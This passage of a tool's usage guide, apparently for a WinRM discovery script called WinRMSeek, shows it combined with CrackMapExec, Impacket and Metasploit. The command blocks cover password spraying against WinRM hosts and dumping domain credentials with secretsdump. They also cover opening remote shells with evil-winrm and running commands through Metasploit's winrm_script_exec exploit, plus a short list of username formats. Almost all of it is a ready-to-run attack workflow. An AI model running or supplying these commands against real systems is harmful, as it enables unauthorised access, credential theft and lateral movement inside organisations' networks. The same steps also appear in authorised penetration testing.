 ### With CrackMapExec
```bash
# 1. Find WinRM hosts
./winrmseek.py 10.0.0.0/24

# 2. Use CME for credential spraying on WinRM hosts
crackmapexec winrm -f winrmlist.txt -u users.txt -p passwords.txt

# 3. Test successful creds with WinRMSeek
./winrmseek.py -f winrmlist.txt -t -u found_user -p found_pass
```

### With Impacket
```bash
# 1. Get credentials via secretsdump
secretsdump.py DOMAIN/user:pass@192.168.1.10

# 2. Test extracted credentials on WinRM hosts
./winrmseek.py -f servers.txt -t -u administrator -p extracted_pass

# 3. Access via evil-winrm
evil-winrm -i TARGET -u administrator -p extracted_pass
```

### With Metasploit
```bash
# 1. Discover WinRM targets
./winrmseek.py -f targets.txt

# 2. Use Metasploit's winrm_login module
use auxiliary/scanner/winrm/winrm_login
set RHOSTS file:winrmlist.txt
set USERNAME administrator
set PASSWORD Password123
run

# 3. Exploit with winrm_cmd
use exploit/windows/winrm/winrm_script_exec
set RHOST 192.168.1.10
set USERNAME administrator
set PASSWORD Password123
exploit
```

## Authentication Methods

### Username Formats
```bash
# Domain account (preferred for domain-joined hosts)
-u "DOMAIN\username"
-u "username@domain.com"

# Local account
-u ".\administrator"
-u "administrator"

# UPN format
-u "admin@corp.local"
```
